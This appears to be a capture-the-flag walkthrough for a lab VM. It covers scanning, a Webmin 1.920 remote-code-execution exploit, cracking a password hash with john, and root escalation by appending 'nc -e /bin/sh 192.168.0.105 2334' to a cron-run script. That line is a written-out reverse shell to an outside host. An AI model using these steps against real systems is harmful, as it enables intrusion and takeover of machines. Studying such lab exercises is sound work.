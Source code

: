 

### **Netdiscover**


<img src="images/Screen Shot 2019-09-16 at 7.52.08 PM.png" alt="Screen Shot 2019-09-16 at 7.52.08 PM"  />


We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

<img src="images/Screen Shot 2019-09-16 at 7.55.18 PM.png" alt="Screen Shot 2019-09-16 at 7.55.18 PM"  />


We found some services  <u>SSH</u>, <u>HTTP</u>, <u>HTTP(webmin)</u>

------

### Solution

<img src="images/Screen Shot 2019-09-16 at 8.04.36 PM.png" alt="Screen Shot 2019-09-16 at 8.04.36 PM"  />

By googling webmin 1.920, we can find there exists a Remote code Execution Attack.We can download from 

[https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

<img src="images/Screen Shot 2019-09-16 at 8.23.12 PM.png" alt="Screen Shot 2019-09-16 at 8.23.12 PM"  />

run this exploit bash, we can find this webmin system is vulnerable.

so we use instead his cmd with our reverse shell.

<img src="images/Screen Shot 2019-09-16 at 8.25.09 PM.png" alt="Screen Shot 2019-09-16 at 8.25.09 PM"  />

We nc listen 2333,  run this exploit , we can connect to this host.

<img src="images/Screen Shot 2019-09-16 at 8.27.58 PM.png" alt="Screen Shot 2019-09-16 at 8.27.58 PM"  />

Now we go into nezuko home directory, we found a .ssh directory and a nezuko.txt(flag)

<img src="images/Screen Shot 2019-09-16 at 8.30.37 PM.png" alt="Screen Shot 2019-09-16 at 8.30.37 PM"  />

We put our authorized_keys upload, so that we can use shell better.

<img src="images/Screen Shot 2019-09-16 at 8.33.22 PM.png" alt="Screen Shot 2019-09-16 at 8.33.22 PM"  />

we go into from_zenitsu directory, found root may log in this directory.
<img src="images/Screen Shot 2019-09-16 at 8.36.06 PM.png" alt="Screen Shot 2019-09-16 at 8.36.06 PM"  />

emmm......

now we return /home directory, we found zenitsu, go into zenitsu home directory, found zenitsu.txt（flag）

<img src="images/Screen Shot 2019-09-16 at 8.39.56 PM.png" alt="Screen Shot 2019-09-16 at 8.39.56 PM"  />

luckily, we found a send_message_to_nezuko.sh, have group zenitsu:root privilege.
<img src="images/Screen Shot 2019-09-16 at 8.42.39 PM.png" alt="Screen Shot 2019-09-16 at 8.42.39 PM"  />

So the scripts may be run by crontab in user called root .

poorly,  we don't own the zenitsu privilege, so we cat /ect/passwd, found his password hash.
<img src="images/Screen Shot 2019-09-16 at 8.50.01 PM.png" alt="Screen Shot 2019-09-16 at 8.50.01 PM"  />


So we use john to brute force this password, the password is meowmeow.
<img src="images/Screen Shot 2019-09-16 at 8.50.54 PM.png" alt="Screen Shot 2019-09-16 at 8.50.54 PM"  />


We ssh login user zenitsu with his password. otherwise, zenitsu is not allowed to login in ssh, so we

su - zenitsu, successfully.

<img src="images/Screen Shot 2019-09-16 at 8.53.39 PM.png" alt="Screen Shot 2019-09-16 at 8.53.39 PM"  />


so we `echo 'nc -e /bin/sh 192.168.0.105 2334' >> send_message_to_nezuko.sh`

wait a little time , we can connect from user root.

that's all, thanks for reading ^_^


------

**That' all , Thanks for your watching**
